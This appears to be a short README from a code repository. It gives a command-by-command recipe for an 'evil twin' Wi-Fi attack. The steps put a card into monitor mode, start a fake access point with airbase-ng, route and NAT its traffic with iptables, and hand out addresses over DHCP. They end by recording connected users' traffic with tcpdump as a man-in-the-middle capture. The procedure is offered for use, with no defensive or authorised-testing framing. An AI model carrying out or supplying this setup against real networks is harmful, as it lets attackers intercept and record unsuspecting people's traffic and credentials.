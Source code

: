 # Evil Twin

### Config Wireless Interface

See available wireless network interfaces to use

```airmon-ng```

Config wireless interface in mod monitor

```airmon-ng start wlan0```


### Config Facke AP

Create new screen for facke AP

```screen -S fakeAP```

Config facke AP

```airbase-ng -c 6 -e "FakeAPname" mon0 [wlan0mon, wlan0]```

Deatach from  screen

```Cntrl a d```

Connfig the IP to the new interface

```ifconfig at0 [IP-Address] netmask 255.255.255.0```

Check config

```ip route```

### Config Firewall

Configure iptables. The output interface is de internet exit interface

```iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE```

```iptables --append FORWARD --in-interface at0 -j ACCEPT```

Config forwarding

```echo 1 > /proc/sys/net/ipv4/ip_forward```


### Config DHCP

```dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0```

```sudo systemctl start isc-dhcp-server.service```

```sudo systemctl status isc-dhcp-server.service```


### If failed

```sudo rm /var/run/dhcpd.pid```


### MITM Record 

```tcpdump -i at0 -w fileName.pcap -vv```
